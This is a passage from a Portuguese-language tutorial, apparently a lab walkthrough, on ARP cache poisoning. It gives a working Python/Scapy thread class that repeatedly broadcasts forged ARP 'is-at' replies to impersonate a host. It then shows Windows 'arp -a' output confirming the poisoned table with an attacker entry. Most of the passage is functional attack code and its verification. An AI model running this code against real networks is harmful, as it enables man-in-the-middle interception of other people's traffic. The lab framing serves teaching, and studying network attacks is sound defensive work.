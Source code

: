 Isso rodando em **thread** separada e mandando repetidamente, e como diria prof. Yvis (Fisica total) simples assim fera.

Como você pode ver acima, as duas threads tem algum semelhante, o que muda apenas  **macOrigem** e o **macDestino**. logo, podemos escrever uma thread universal e apenas passsar os parâmetros para cada instância das **threads** ou fazer tudo em uma thread só mesmo você que escolhe, fica assim:

``` python
from threading import Thread
from scapy.all import *

class ThreadARPPoison(Thread):
    def __init__(self,srcAddress,dstAddress,mac):
        Thread.__init__(self)
        self.srcAddress = srcAddress
        self.dstAddress = dstAddress
        self.mac        = mac
        self.process    = True

    def makePacket(self):
        ether = Ether(dst = 'ff:ff:ff:ff:ff:ff',src = self.mac)
        parp  = ARP(hwtype = 0x1,ptype = 0x800,hwlen = 0x6,plen = 0x4,
        op = "is-at",hwsrc = self.mac,psrc = self.srcAddress,hwdst =
        'ff:ff:ff:ff:ff:ff',pdst = self.dstAddress)
        padding = Padding(load = "\x00"*18)
        packet_arp= ether/parp/padding
        return packet_arp

    def run(self):
        print('[*] starting thread')
        pkt = self.makePacket()
        while self.process:
            send(pkt,verbose=False, count=3),sendp(pkt,verbose=False, count=3)

    def stop(self):
        self.process = False
        print('[!] stop thread ')

```

Mas como eu irei saber se realmente está funcionando o ataque ? para responder essa pergunta voltamos para o conhecimento de rede, para que uma ataque desse funcione alguma coisa teria que ser altera e essa coisa é examante a tabela ARP que no caso, como você ta fazendo esses teste em um ambiente simulado podemos verificar se essas modificações realmente estão acontecendo. no windows basta abrir o **cmd** e digitar o comando abaixo :
```
arp -a
```
Esse comando é básicamente para verificar se a tabela arp está "envenenada" como o pessoal costuma referenciar, a saída desse comando é algum assim:
```
C:\Users\lab>arp -a

Interface: 10.0.2.15 --- 0xb
  Endereço IP           Endereço físico       Tipo
  10.0.2.1              01-00-5e-00-00-16     dinâmico  (Gateway)
  10.0.2.34             54-ff-32-a5-5c-b4     dinâmico
  10.0.0.22             01-00-5e-00-00-16     dinâmico  (Atacante)

C:\Users\lab>
```
